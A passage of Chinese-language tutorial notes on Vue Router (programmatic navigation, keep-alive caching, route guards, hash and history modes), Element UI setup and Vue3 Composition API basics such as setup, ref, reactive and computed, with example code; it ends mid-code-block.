> 不借助`<router-link>`实现路由跳转，让路由跳转更加灵活（`<router-link>`最终会转为`<a>`，使用`<button>`时便无法再用`<router-link>`了）

#### 5.9.1 push模式

1. 定义：通过在`methods`中定义函数，使用`$router.push`方法实现路由跳转，参数配置与`<router-link>`相同

2. 特点：浏览器会记录下历史记录，可以通过后退按钮退回到当前页面

3. 案例：二级路由组件 Message.vue，添加按钮，实现push模式跳转到三极路由组件 Detail.vue

   ```vue
   <template>
   	<div>
   		<ul>
   			<li v-for="m in messageList" :key="m.id">
                   <!-- 定义pushShow函数（可传参），通过push模式进行路由跳转 -->
   				<button @click="pushShow(m)">push查看</button>
   			</li>
   		</ul>
   		<hr>
           <!-- 展示子路由组件Detail.vue -->
   		<router-view></router-view>
   	</div>
   </template>
   
   <script>
   export default {
     ......
     methods: {
       pushShow(m) {
         this.$router.push({
           name: 'xiangqing',
           query: {
             id: m.id,
             title: m.title
           }
         })
       },
     ......
     }
   }
   </script>
   ```

#### 5.9.2 replace模式

1. 定义：通过在`methods`中定义函数，使用`$router.repalce`方法实现路由跳转，参数配置与`<router-link>`相同

2. 特点：浏览器不会记录下历史记录，无法通过后退按钮退回到当前页面

3. 案例：二级路由组件 Message.vue，添加按钮，实现replace模式跳转到三极路由组件 Detail.vue

   ```vue
   <template>
   	<div>
   		<ul>
   			<li v-for="m in messageList" :key="m.id">
                   <!-- 定义replaceShow函数（可传参），通过repalce模式进行路由跳转 -->
                   <button @click="replaceShow(m)">replace查看</button>
   			</li>
   		</ul>
   		<hr>
           <!-- 展示子路由组件Detail.vue -->
   		<router-view></router-view>
   	</div>
   </template>
   
   <script>
   export default {
     ......
     methods: {
       replaceShow(m) {
         this.$router.replace({
           name: 'xiangqing',
           query: {
             id: m.id,
             title: m.title
           }
         })
       }
     ......
     }
   }
   </script>
   ```

#### 5.9.3 前进与后退

1. `$router.forward()`：前进，相当于浏览器前进按钮

2. `$router.back()`：后退，相当于浏览器后退按钮

3. `$router.go(n)`：可前进可后退，传入数字，正数代表前进n页，负数代表后退n页

4. 案例：在Banner.vue中添加前进、后退、go按钮

   ```vue
   <template>
   	<div class="col-xs-offset-2 col-xs-8">
   		<div class="page-header">
   			<h2>Vue Router Demo</h2>
   			<button @click="back">后退</button>
   			<button @click="forward">前进</button>
   			<button @click="test">测试一下go</button>
   		</div>
   	</div>
   </template>
   
   <script>
   	export default {
   		name:'Banner',
   		methods: {
   			back(){
   				this.$router.back()
   			},
   			forward(){
   				this.$router.forward()
   			},
   			test(){
   				this.$router.go(3)
   			}
   		},
   	}
   </script>
   ```

------

### 5.10 缓存路由组件

> `<keep-alive include="xxx">`：让不展示的路由组件保持挂载，不被销毁。（应用：当切换回页面时，之前输入的内容可以保存）

1. 使用`<keep-alive>`包裹父级路由组件中的`<router-view>`展示位置，并用`include`指定需要保留的子级路由组件名称（由`name`定义的）

   1）缓存多个子路由组件：

   ```vue
   <keep-alive include="['xxx','xxxx']"> 
       <router-view></router-view>
   </keep-alive>
   ```

   2）缓存单个子路由组件：

   ```vue
   <keep-alive include="xxx"> 
       <router-view></router-view>
   </keep-alive>
   ```

   3）注意：如果不指定`include`，默认缓存所有在该位置展示的子组件

   ```vue
   <keep-alive>
       <router-view></router-view>
   </keep-alive>
   ```

2. 案例：在一级路由组件Home.vue中，缓存二级路由组件News、Message.vue

   ```vue
   <template>
     <div>
       <h2>Home组件内容</h2>
       <div>
         <ul class="nav nav-tabs">
           <li>
             <router-link class="list-group-item" active-class="active" to="/home/news">News</router-link>
           </li>
           <li>
             <router-link class="list-group-item" active-class="active" to="/home/message">Message</router-link>
           </li>
         </ul>
         <!-- 缓存多个路由组件 -->
         <keep-alive :include="['News','Message']">
           <router-view></router-view>
         </keep-alive>
       </div>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Home'
   }
   </script>
   ```

### 5.11 路由生命周期函数

> 路由组件所独有的两个钩子`activated`、`deactivated`，用于捕获路由组件的激活状态。

1. 应用场景：即缓存路由组件，又在切换到其他路由组件时停止上个路由组件的动作。

2. 案例：在 News.vue 组件中使用定时器添加一个不断闪烁的标题，切换到其他组件时定时器停止运行

   1）`activated()`：配置定时器

   2）`deactivated()`：清除定时器

   ```vue
   <li :style="{opacity}">欢迎学习Vue</li>
   ......
   <script>
   export default {
     name: 'News',
     data() {
       return {
         opacity: 1
       }
     },
     activated() {
       console.log('News组件被激活了')
       this.timer = setInterval(() => {
         console.log('@')
         this.opacity -= 0.01
         if (this.opacity <= 0) this.opacity = 1
       }, 16)
     },
     deactivated() {
       console.log('News组件失活了')
       clearInterval(this.timer)
     }
   }
   </script>
   ```

------

### 5.12 路由守卫

> 对路由进行权限控制，需要在路由配置文件`index.js`中对每个路由项中设置`meta:{isAuth: bool,...}`，辅助判断是否需要鉴权

#### 5.12.1 全局路由守卫

1. 全局前置路由守卫：初始化的时候被调用、每次路由切换之前被调用

   1）语法：`router.beforeEach((to, from, next)=>{})`

   2）参数：

   * `to`：要去的地址
   * `from`：来源地址
   * `next`：放行函数

2. 全局后置路由守卫：初始化的时候被调用、每次路由切换之后被调用

   1）语法：`router.afterEach((to, from))=>{})`

   2）参数：

   * `to`：要去的地址
   * `from`：来源地址

3. 案例：如果在localStorage中的school名称不为atguigu，则无法访问二、三级路由组件News、Message、Detail

   1）实例化`VueRouter`，并为每个路由项设置`meta`对象

   ```js
   ......
   const router = new VueRouter({
     routes: [
       {
         name: 'guanyu',
         path: '/about',
         component: About,
         meta: { title: '关于' },
       },
       {
         name: 'zhuye',
         path: '/home',
         component: Home,
         meta: { title: '主页' },
         children: [
           {
             name: 'xinwen',
             path: 'news',
             component: News,
             // meta对象：专门允许程序员放自定义属性的地方
             // isAuth：是否需要授权
             meta: { isAuth: true, title: '新闻' },
           },
           {
             name: 'xiaoxi',
             path: 'message',
             component: Message,
             meta: { isAuth: true, title: '消息' },
             children: [
               {
                 name: 'xiangqing',
                 path: 'detail',
                 component: Detail,
                 meta: { isAuth: true, title: '详情' },
                   }
                 },
               },
             ],
           },
         ],
       },
     ],
   })
   ......
   ```

   2）设置全局前置路由守卫：用于鉴定访问权限

   ```js
   router.beforeEach((to, from, next) => {
     console.log('前置路由守卫', to, from)
     if (to.meta.isAuth) {
       //判断是否需要鉴定权限
       if (localStorage.getItem('school') === 'atguigu') {
         next()
       } else {
         alert('学校名不对，无权限查看！')
       }
     } else {
       next()
     }
   })
   ```

   3）设置全局后置路由守卫：如果访问成功，则修改页面标题

   ```js
   router.afterEach((to, from) => {
     console.log('后置路由守卫', to, from)
     // 更换页面标题
     document.title = to.meta.title || '硅谷系统'
   })
   ```

   4）导出路由

   ```js
   export default router
   ```

------

#### 5.12.2 独享路由守卫

1. 独享路由守卫：单独针对某一个路由，可以和全局后置路由守卫相配合

   1）语法：`beforeEnter: (to, from, next)=>{}`

   2）参数：

   * `to`：要去的地址
   * `from`：来源地址
   * `next`：放行函数

2. 案例：针对News路由组件，如果localStorage中储存的school名称不为atguigu，则无法访问

   1）直接在路由设置文件router/index.js中对news路由配置项进行修改即可

   ```js
   ......
   {
     name: 'xinwen',
     path: 'news',
     component: News,
     meta: { isAuth: true, title: '新闻' },
     // 独享路由守卫
     beforeEnter: (to, from, next) => {
       console.log('独享路由守卫', to, from)
       if (to.meta.isAuth) {
         //判断是否需要鉴权
         if (localStorage.getItem('school') === 'atguigu') {
           next()
         } else {
           alert('学校名不对，无权限查看！')
         }
       } else {
         next()
       }
     },
   },
   ......
   ```

   2）导出路由

   ```js
   export default router
   ```

------

#### 5.12.3 组件内守卫

1. 进入守卫：通过路由规则，进入该组件时被调用

   1）语法：`beforeRouteEnter(to, from, next){}`

   2）参数：

   * `to`：要去的地址
   * `from`：来源地址
   * `next`：放行函数

2. 离开守卫：通过路由规则，离开该组件时被调用

   1）语法：`beforeRouteLeave(to, from, next){}`

   2）参数：

   * `to`：要去的地址
   * `from`：来源地址
   * `next`：放行函数

3. 注意：必须是通过路由规则进入/离开组件时才会起作用，如果不是通过路由规则（如直接引入并渲染在页面），则会失效

4. 案例：为About.vue路由组件添加组件内守卫

   ```vue
   <template>
     <h2>我是About的内容</h2>
   </template>
   
   <script>
   export default {
     name: 'About',
     // 进入守卫：通过路由规则，进入该组件时被调用
     beforeRouteEnter(to, from, next) {
       console.log('About--beforeRouteEnter', to, from)
       if (to.meta.isAuth) {
         //判断是否需要鉴权
         if (localStorage.getItem('school') === 'atguigu') {
           next()
         } else {
           alert('学校名不对，无权限查看！')
         }
       } else {
         next()
       }
     },
   
     // 离开守卫：通过路由规则，离开该组件时被调用
     beforeRouteLeave(to, from, next) {
       console.log('About--beforeRouteLeave', to, from)
       next()
     }
   }
   </script>
   ```

------

### 5.13 路由器的两种工作模式

> * hash值：URL中井号（`#`）后面的内容就是hash值，如：`localhost:8080/about/#/news/big/123`
>
> * hash值不会包含在http请求中，即hash值不会带给服务器，上述URL中服务器接收到的地址不会带`#`后面的参数

#### 5.13.1 hash模式

1. 开启方法：在路由配置文件router/index.js中设置，如果不设置默认为`hash`模式

   ```js
   const router = new VueRouter({
     mode: 'hash',
     routes: [...]
     ],
   })
   ```

2. URL地址中永远带着`#`号，不美观

3. 若将地址通过第三方手机app分享，如果app校验严格，则地址会被标记为不合法

4. 兼容性较好

5. 刷新页面时，不会产生404错误

#### 5.13.2 history模式

1. 开启方法：在路由配置文件router/index.js中设置

   ```js
   const router = new VueRouter({
     mode: 'history',
     routes: [...]
     ],
   })
   ```

2. URL地址干净美观

3. 兼容性和hash模式相比略差

4. 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题。npm插件：`connect-history-api-fallback`

   1）安装：

   ```bash
   npm i connect-history-api-fallback
   ```

   2）express服务器部署：

   ```js
   const express = require('express')
   // 引入history相关插件
   const history = require('connect-history-api-fallback')
   
   const app = express()
   // 全局中间件：挂载history相关插件
   app.use(history())
   // 托管静态资源
   app.use(express.static(__dirname + '/static'))
   // 配置GET请求等等
   app.get(...)
   ......
   // 启动服务器
   app.listen(8080, (err) => {
     if(!err) console.log('服务器成功启动了!')
   })
   ```

------

### 5.14 UI组件库

#### 5.14.1 移动端UI组件库

1. Vant：[https://youzan.github.io/vant](https://youzan.github.io/vant)
2. Cube UI：[https://didi.github.io/cube-ui](https://didi.github.io/cube-ui)
3. Mint UI：[http://mint-ui.github.io](http://mint-ui.github.io)

#### 5.14.2 PC端UI组件库

1. Element UI：[https://element.eleme.cn](https://element.eleme.cn)
2. IView UI：[https://www.iviewui.com](https://www.iviewui.com)

#### 5.14.3 使用Element组件库

1. 安装：

   ```bash
   npm i element-ui
   ```

2. 入口文件 main.js：ElementUI组件库

   1）完整引入：不推荐，格式太大

   2）按需引入：推荐，借助[`babel-plugin-component`](https://github.com/ElementUI/babel-plugin-component)按需引入

   ```js
   // babel.config.js
   module.exports = {
     presets: [
       '@vue/cli-plugin-babel/preset',
       // 注意：这里和官网写的不一样
       ['@babel/preset-env', { modules: false }],
     ],
     plugins: [
       [
         'component',
         {
           libraryName: 'element-ui',
           styleLibraryName: 'theme-chalk',
         },
       ],
     ],
   }
   
   ```

   ```js
   // 引入Vue
   import Vue from 'vue'
   // 引入App
   import App from './App.vue'
   
   // 完整引入
   // 引入ElementUI组件库
   // import ElementUI from 'element-ui';
   
   // 引入ElementUI全部样式
   // import 'element-ui/lib/theme-chalk/index.css';
   
   // 按需引入
   import { Button, Row, DatePicker } from 'element-ui'
   
   // 关闭Vue的生产提示
   Vue.config.productionTip = false
   
   // 应用ElementUI
   // Vue.use(ElementUI);
   
   // 自定义组件名称
   Vue.component('atguigu-button', Button)
   Vue.component('atguigu-row', Row)
   Vue.component('atguigu-date-picker', DatePicker)
   
   //创建vm
   new Vue({
     el: '#app',
     render: (h) => h(App),
   })
   ```

3. 父组件 App.vue：直接使用定义好的组件

   ```vue
   <template>
     <div>
       <button>原生的按钮</button>
       <input type="text" />
       <atguigu-row>
         <atguigu-button>默认按钮</atguigu-button>
         <atguigu-button type="primary">主要按钮</atguigu-button>
         <atguigu-button type="success">成功按钮</atguigu-button>
         <atguigu-button type="info">信息按钮</atguigu-button>
         <atguigu-button type="warning">警告按钮</atguigu-button>
         <atguigu-button type="danger">危险按钮</atguigu-button>
       </atguigu-row>
       <atguigu-date-picker type="date" placeholder="选择日期"></atguigu-date-picker>
       <atguigu-row>
         <atguigu-button icon="el-icon-search" circle></atguigu-button>
         <atguigu-button type="primary" icon="el-icon-s-check" circle></atguigu-button>
         <atguigu-button type="success" icon="el-icon-check" circle></atguigu-button>
         <atguigu-button type="info" icon="el-icon-message" circle></atguigu-button>
         <atguigu-button type="warning" icon="el-icon-star-off" circle></atguigu-button>
         <atguigu-button type="danger" icon="el-icon-delete" circle></atguigu-button>
       </atguigu-row>
     </div>
   </template>
   
   <script>
   export default {
     name: 'App'
   }
   </script>
   ```

------

# Vue3

## 第1章 Vue3基本用法

### 1.1 Vue3简介

1. 简介：

   1）2020年9月18日，Vue.js发布3.0版本，代号：One Piece（海贼王）

   2）耗时2年多、[2600+次提交](https://github.com/vuejs/vue-next/graphs/commit-activity)、[30+个RFC](https://github.com/vuejs/rfcs/tree/master/active-rfcs)、[600+次PR](https://github.com/vuejs/vue-next/pulls?q=is%3Apr+is%3Amerged+-author%3Aapp%2Fdependabot-preview+)、[99位贡献者](https://github.com/vuejs/vue-next/graphs/contributors) 

   3）github上的tags地址：https://github.com/vuejs/vue-next/releases/tag/v3.0.0

2. 优势：

   1）性能的提升：

   - 打包大小减少41%
   - 初次渲染快55%, 更新渲染快133%
   - 内存减少54%

   2）源码的升级：

   - 使用`Proxy`代替`defineProperty`实现响应式
   - 重写虚拟DOM的实现和Tree-Shaking

   3）拥抱TypeScript：Vue3可以更好的支持TypeScript

3. 特性：

   1）Composition API（组合API）

   - setup配置
   - ref与reactive
   - watch与watchEffect
   - provide与inject

   2）新的内置组件

   - Fragment 
   - Teleport
   - Suspense

   3）其他改变

   - 新的生命周期钩子
   - data 选项应始终被声明为一个函数
   - 移除keyCode支持作为 v-on 的修饰符

4. 开发者工具：chrome网上商店安装[带有beta版logo的](https://chrome.google.com/webstore/detail/vuejs-devtools/ljjemllljcmogpfapbkkighbhhppjdbg/related?utm_source=chrome-ntp-icon)

   

------

### 1.2 创建Vue3工程

#### 1.2.1 用vue-cil创建

> 官方文档：[https://cli.vuejs.org/zh/guide/creating-a-project.html#vue-create](https://cli.vuejs.org/zh/guide/creating-a-project.html#vue-create)

1. 查看`@vue/cli`版本，确保版本在4.5.0以上

   ```bash
   vue -V
   vue --version
   ```

2. 安装或者升级`@vue/cli`

   ```bash
   npm install -g @vue/cli
   ```

3. 创建项目

   ```bash
   vue create <project-name>
   ```

4. 启动项目

   ```bash
   npm run serve
   ```

#### 1.2.2 用vite创建

> 官方文档：[https://v3.cn.vuejs.org/guide/installation.html#vite](https://v3.cn.vuejs.org/guide/installation.html#vite)
>
> vite官网：[https://vitejs.cn](https://vitejs.cn)

##### 1.2.2.1 vite简介

1. 定义：`vite`是新一代前端构建工具（以前是`webpack`、`grunt`、`gulp`）

2. 优点：

   1）开发环境中，无需打包操作，可快速的冷启动

   2）轻量快速的热重载（HMR，hot module replacement）

   3）真正的按需编译，不再等待整个应用编译完成

3. 传统构建与vite构建对比：

   |  |  |
   | :----------------------------------------------------------: | :----------------------------------------------------------: |

##### 1.2.2.2 vite搭建流程

1. 创建工程

   ```bash
   npm init vite-app <project-name>
   ```

2. 安装依赖

   ```bash
   npm install
   ```

3. 启动项目

   ```bash
   npm run dev
   ```

### 1.3 工程文件结构

1. 入口文件：main.js

   1）引入工厂函数：`createApp`

   2）创建应用实例对象app：`const app = createApp(App)`

   3）挂载：`app.mount('#app')`

   ```js
   // 引入的不再是Vue构造函数了，引入的是一个名为createApp的工厂函数
   // import Vue from 'vue'（旧写法）
   import { createApp } from 'vue'
   import App from './App.vue'
   
   // 创建应用实例对象app(类似于之前Vue2中的vm，但app比vm更“轻”)
   // new Vue({ el: '#app', render: (h) => h(App),}) （旧写法）
   const app = createApp(App)
   
   // 挂载
   app.mount('#app')
   ```

2. 组件：App.vue、Components.vue

   1）Vue3组件中的模板结构可以没有根标签

   ```vue
   <template>
     <!-- Vue3组件中的模板结构可以没有根标签 -->
     
     <HelloWorld msg="Welcome to Your Vue.js App" />
   </template>
   
   <script>
   import HelloWorld from './components/HelloWorld.vue'
   
   export default {
     name: 'App',
     components: {
       HelloWorld,
     },
   }
   </script>
   ```

3. 其他文件结构与Vue2相同

------

### 1.4 Vue3新特性

#### 1.4.1 全局API转移

1. Vue2有许多全局API和配置（`Vue.xxx`）：如：注册全局组件、注册全局指令等

   ```js
   //注册全局组件
   Vue.component('MyButton', {
     data: () => ({
       count: 0
     }),
     template: '<button @click="count++">Clicked {{ count }} times.</button>'
   })
   
   //注册全局指令
   Vue.directive('focus', {
     inserted: el => el.focus()
   }
   ```

2. Vue3将全局的API（`Vue.xxx`）调整到应用实例（```app```）上

   | Vue2：全局API（```Vue```） |   Vue3：应用实例 (`app`)    |
   | :------------------------: | :-------------------------: |
   |      Vue.config.xxxx       |       app.config.xxxx       |
   |  Vue.config.productionTip  |            移除             |
   |       Vue.component        |        app.component        |
   |       Vue.directive        |        app.directive        |
   |         Vue.mixin          |          app.mixin          |
   |          Vue.use           |           app.use           |
   |       Vue.prototype        | app.config.globalProperties |

#### 1.4.2 数据与事件处理

1. `data`选项应始终被声明为一个函数

2. 移除`keyCode`作为`v-on`的修饰符，同时也不再支持`config.keyCodes`

   ```js
   <!-- 以下方法均被废除 -->
   <!-- keyCode作为v-on的修饰符 -->
   <input type="text" placeholder="按下回车提示输入" @keydown.13="showInfo" />
   
   <!-- 不再支持config.keyCodes -->
   <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo" />
   Vue.config.keyCodes.huiche = 13
   ```

3. 移除`v-on.native`修饰符

   1）父组件：绑定事件

   ```vue
   <my-component
     v-on:close="handleComponentEvent"
     v-on:click="handleNativeClickEvent"
   />
   ```

   2）子组件：使用`emits`指定自定义事件

   ```vue
   <script>
     export default {
       emits: ['close']	// close是自定义事件，click是原生js事件（无需再加native）
     }
   </script>
   ```

#### 1.4.3 过滤器 filter

1. 移除过滤器`filter`：过滤器虽然这看起来很方便，但它需要一个自定义语法，打破大括号内表达式是 “只是 JavaScript” 的假设，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器。

   ```vue
   <!-- 以下方法被废除 -->
   <div id="root2">
     <h2>{{msg | mySlice}}</h2>
   </div>
   <h3>现在是：{{time | timeFormater}}</h3>
   
   <script>
   ......
   // 全局过滤器
   Vue.filter('mySlice', function (value) {
     return value.slice(0, 4)
   })
   // 局部过滤器
   filters: {
     timeFormater(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
       return dayjs(value).format(str)
     },
   },
   ......
   </script>
   ```

#### 1.4.4 过度与动画

1. Vue2写法：

   ```css
   .v-enter,
   .v-leave-to {
     opacity: 0;
   }
   .v-leave,
   .v-enter-to {
     opacity: 1;
   }
   ```

2. Vue3写法：

   ```css
   .v-enter-from,
   .v-leave-to {
     opacity: 0;
   }
   
   .v-leave-from,
   .v-enter-to {
     opacity: 1;
   }
   ```

------

### 1.5 Vue3优势

1. `Options API`的问题：新增或者修改一个需求，就需要分别在data、methods、computed里修改

   |  |  |
   | ------------------------------------------------------------ | ------------------------------------------------------------ |

2. `Composition API`的优势：可以更加优雅的组织代码和函数，让相关功能的代码更加有序的组织在一起

   |  |  |
   | ------------------------------------------------------------ | ------------------------------------------------------------ |

------

## 第2章 Composition API

> 官方文档: [https://v3.cn.vuejs.org/guide/composition-api-introduction.html](https://v3.cn.vuejs.org/guide/composition-api-introduction.html)

### 2.1 setup

> 不要在`setup`中使用`this`，因为`setup`在`beforeCreate`之前执行一次，`this`是`undefined`

1. 定义：setup是Vue3.0中一个新的配置项，值为一个函数。

2. 作用：组件中所用到的数据、方法等，均要配置在setup中，是所有Composition API（组合API）“表演的舞台”。

3. 两种返回值：

   1）返回一个对象（常用）：对象中的属性、方法, 在模板中均可以直接使用

   2）返回一个渲染函数（不常用）：可以自定义渲染内容

   ```vue
   <template>
     <h1>一个人的信息</h1>
     <h2>姓名：{{name}}</h2>
     <h2>年龄：{{age}}</h2>
     <h2>a的值是：{{a}}</h2>
     <button @click="sayHello">说话(Vue3所配置的——sayHello)</button>
   </template>
   
   <script>
   export default {
     name: 'App',
     setup() {
       // 数据
       let name = '张三'
       let age = 18
       let a = 200
       // 方法
       function sayHello() {
         alert(`我叫${name}，我${age}岁了，你好啊！`)
       }
       // 返回一个对象（常用）
       return {
         name,
         age,
         sayHello,
       }
       // 返回一个函数（渲染函数）
       // return ()=> h('h1','尚硅谷')
     },
   }
   </script>
   ```

4. 不要与Vue2配置混用

   1）Vue2配置（data、methos、computed...）中可以访问到setup中的属性、方法

   2）但在setup中不能访问到Vue2配置（data、methos、computed...）

   3）如果有重名, setup优先

5. setup不能是一个async函数，因为返回值不再是return的对象，而是promise，模板看不到return对象中的属性。（后期也可以返回一个Promise实例，但需要`Suspense`和异步组件的配合，详情见`Suspense`章节）

6. setup执行的时机：在`beforeCreate`之前执行一次，`this`是`undefined`（不要在setup中使用`this`）

7. setup的参数：

   1）`props`：值为对象，包含：组件外部传递过来，且组件内部声明接收了的属性

   2）`context`：上下文对象

   - `attrs`: 值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性, 相当于 `this.$attrs`
   - `slots`: 收到的插槽内容, 相当于 `this.$slots`
   - `emit`: 分发自定义事件的函数, 相当于 `this.$emit`

8. 案例：

   1）父组件：App.vue

   ```vue
   <template>
     <!-- 自定义事件 -->
     <Demo @hello="showHelloMsg" msg="你好啊" school="尚硅谷">
       <!-- 插槽：在子组件中使用context.slots查看 -->
       <template v-slot:qwe>
         <span>尚硅谷</span>
       </template>
       <template v-slot:asd>
         <span>尚硅谷</span>
       </template>
     </Demo>
   </template>
   
   <script>
   import Demo from './components/Demo'
   export default {
     name: 'App',
     components: { Demo },
     setup() {
       function showHelloMsg(value) {
         alert(`你好啊，你触发了hello事件，我收到的参数是:${value}！`)
       }
       return {
         showHelloMsg,
       }
     },
   }
   </script>
   ```

   2）子组件：Demo.vue

   ```vue
   <template>
     <h1>一个人的信息</h1>
     <h2>姓名：{{person.name}}</h2>
     <h2>年龄：{{person.age}}</h2>
     <button @click="test">测试触发一下Demo组件的Hello事件</button>
   </template>
   
   <script>
   import { reactive } from 'vue'
   export default {
     name: 'Demo',
     props: ['msg', 'school'],
     emits: ['hello'], // 需要接收一下父组件定义的自定义事件（vue3新写法）
     setup(props, context) {
       // console.log('---setup---',props)
       // console.log('---setup---',context)
       // console.log('---setup---',context.attrs) // 相当与Vue2中的$attrs
       // console.log('---setup---',context.emit) 	// 触发自定义事件
       console.log('---setup---', context.slots) 	// 插槽
       //数据
       let person = reactive({
         name: '张三',
         age: 18,
       })
   
       //方法
       function test() {
         context.emit('hello', 666)
       }
   
       //返回一个对象（常用）
       return {
         person,
         test,
       }
     },
   }
   </script>
   ```

------

### 2.2 ref函数

1. 作用: 定义响应式数据

2. 语法: `const xxx = ref(initValue)` 

   1）创建一个包含响应式数据的引用对象（reference对象，简称ref对象）。

   2）JS中操作数据： `xxx.value`

   3）模板中读取数据: 不需要.value，直接：`<div>{{xxx}}</div>`

3. 注意：

   1）接收的数据可以是：基本类型、也可以是对象类型

   2）基本类型的数据：响应式依然是靠``Object.defineProperty()``的```get```与```set```完成的

   3）对象类型的数据：内部调用了Vue3.0中的`reactive`函数

   ```vue
   <template>
     <h1>一个人的信息</h1>
     <!-- 在模板中，无需通过.value，vue会自动提取值 -->
     <h2>姓名：{{name}}</h2>
     <h2>年龄：{{age}}</h2>
     <h3>工作种类：{{job.type}}</h3>
     <h3>工作薪水：{{job.salary}}</h3>
     <button @click="changeInfo">修改人的信息</button>
   </template>
   
   <script>
   import { ref } from 'vue'
   export default {
     name: 'App',
     setup() {
       // 数据
       let name = ref('张三')
       let age = ref(18)
       let job = ref({
         type: '前端工程师',
         salary: '30K',
       })
       // 方法
       function changeInfo() {
         name.value = '李四'
         age.value = 48
         job.value.type = 'UI设计师'
         job.value.salary = '60K'
       }
   
       // 返回一个对象（常用）
       return {
         name,
         age,
         job,
         changeInfo,
       }
     },
   }
   </script>
   ```

------

### 2.3 reactive函数

#### 2.3.1 基本用法

1. 作用: 定义一个对象类型的响应式数据（基本类型不要用它，要用`ref`函数）

2. 语法：`const 代理对象 = reactive(源对象)`，接收一个对象（或数组），返回一个代理对象（Proxy的实例对象，简称proxy对象）

3. 特点：reactive定义的响应式数据是“深层次的”，不需要用过value修改数据，直接修改即可。

4. 原理：内部基于 ES6 的 `Proxy` 实现，通过代理对象操作源对象内部数据进行操作。

5. 与ref对比：

   | 对比 |                             ref                              |                        reactive                         |
   | :--: | :----------------------------------------------------------: | :-----------------------------------------------------: |
   | 定义 | 定义基本数据；也可定义对象或数组，内部自动通过`reactive`转为代理对象 |                     定义对象或数组                      |
   | 原理 |    通过`Object.defineProperty()`的`get`与`set`实现响应式     | 使用`Proxy`实现响应式, 并通过`Reflec`操作源对象内部数据 |
   | 使用 | 操作数据需要`.value`，读取数据时模板中直接读取不需要`.value` |           操作数据与读取数据均不需要`.value`            |

   ```vue
   <template>
     <h1>一个人的信息</h1>
     <h2>姓名：{{person.name}}</h2>
     <h2>年龄：{{person.age}}</h2>
     <h3>工作种类：{{person.job.type}}</h3>
     <h3>工作薪水：{{person.job.salary}}</h3>
     <h3>爱好：{{person.hobby}}</h3>
     <h3>测试的数据c：{{person.job.a.b.c}}</h3>
     <button @click="changeInfo">修改人的信息</button>
   </template>
   
   <script>
   import { reactive } from 'vue'
   export default {
     name: 'App',
     setup() {
       //数据
       let person = reactive({
         name: '张三',
         age: 18,
         job: {
           type: '前端工程师',
           salary: '30K',
           a: {
             b: {
               c: 666,
             },
           },
         },
         hobby: ['抽烟', '喝酒', '烫头'],
       })
   
       //方法
       function changeInfo() {
         person.name = '李四'
         person.age = 48
         person.job.type = 'UI设计师'
         person.job.salary = '60K'
         person.job.a.b.c = 999
         person.hobby[0] = '学习'	// 可以直接通过数组index修改（而vue2中需要用$set修改）
       }
   
       //返回一个对象（常用）
       return {
         person,
         changeInfo,
       }
     },
   }
   </script>
   ```

#### 2.3.2 响应式原理

##### 2.3.2.1 Vue2的响应式

1. 实现原理：

   1）对象类型：通过```Object.defineProperty()```对属性的读取、修改进行拦截（数据劫持）

   2）数组类型：通过重写更新数组的一系列方法来实现拦截。（对数组的变更方法进行了包裹）

   ```js
   Object.defineProperty(data, 'count', {
     get() {},
     set() {},
   })
   ```

2. 存在问题：

   1）对象：新增属性、删除属性, 界面不会更新

   2）数组：直接通过下标修改数组, 界面不会自动更新

   ```js
   //源数据
   let person = {
     name: '张三',
     age: 18,
   }
   
   let p = {}
   Object.defineProperty(p, 'name', {
     configurable: true,
     get() {
       //有人读取name时调用
       return person.name
     },
     set(value) {
       //有人修改name时调用
       console.log('有人修改了name属性，我发现了，我要去更新界面！')
       person.name = value
     },
   })
   Object.defineProperty(p, 'age', {
     get() {
       //有人读取age时调用
       return person.age
     },
     set(value) {
       //有人修改age时调用
       console.log('有人修改了age属性，我发现了，我要去更新界面！')
       person.age = value
     },
   })
   ```

##### 2.3.2.2 Vue3的响应式

1. 通过 `Proxy`（代理）：拦截对象中任意属性的变化, 包括：属性值的读写、属性的添加、属性的删除等

2. 通过 `Reflect`（反射）：对源对象的属性进行操作

   ```js
   new Proxy(data, {
     // 拦截读取属性值
     get(target, prop) {
       return Reflect.get(target, prop)
     },
     // 拦截设置属性值或添加新属性
     set(target, prop, value) {
       return Reflect.set(target, prop, value)
     },
     // 拦截删除属性
     deleteProperty(target, prop) {
       return Reflect.deleteProperty(target, prop)
     },
   })
   ```

3. MDN文档中描述的Proxy与Reflect：

   1）[Proxy](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy)：用于创建一个对象的代理，从而实现基本操作的拦截和自定义

   2）[Reflect](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect)：是一个内置的对象，它提供拦截JavaScript操作的方法

   ```js
   const p = new Proxy(person, {
     //有人读取p的某个属性时调用(target参数是指person)
     get(target, propName) {
       console.log(`有人读取了p身上的${propName}属性`)
       return Reflect.get(target, propName)
     },
     //有人修改p的某个属性、或给p追加某个属性时调用
     set(target, propName, value) {
       console.log(`有人修改了p身上的${propName}属性，我要去更新界面了！`)
       Reflect.set(target, propName, value)
     },
     //有人删除p的某个属性时调用
     deleteProperty(target, propName) {
       console.log(`有人删除了p身上的${propName}属性，我要去更新界面了！`)
       return Reflect.deleteProperty(target, propName)
     },
   })
   ```

------

### 2.4 计算属性 computed

> 与 Vue2 中computed配置功能一致

1. 简写：不考虑计算属性被修改的情况

   ```js
   person.fullName = computed(() => {
     return person.firstName + '-' + person.lastName
   })
   ```

2. 完整写法：考虑读和写

   ```js
   person.fullName = computed({
     get() {
       return person.firstName + '-' + person.lastName
     },
     set(value) {
       const nameArr = value.split('-')
       person.firstName = nameArr[0]
       person.lastName = nameArr[1]
     },
   })
   ```

3. 案例代码：Demo.vue

   ```vue
   <template>
     <h1>一个人的信息</h1>姓：
     <input type="text" v-model="person.firstName" />
     <br />名：
     <input type="text" v-model="person.lastName" />
     <br />
     <span>全名：{{person.fullName}}</span>
     <br />全名：
     <input type="text" v-model="person.fullName" />
   </template>
   
   <script>
   import { reactive, computed } from 'vue'
   export default {
     name: 'Demo',
     setup() {
       //数据
       let person = reactive({
         firstName: '张',
         lastName: '三',
       })
       //计算属性——简写（没有考虑计算属性被修改的情况）
       /* person.fullName = computed(() => {
         return person.firstName + '-' + person.lastName
       }) */
   
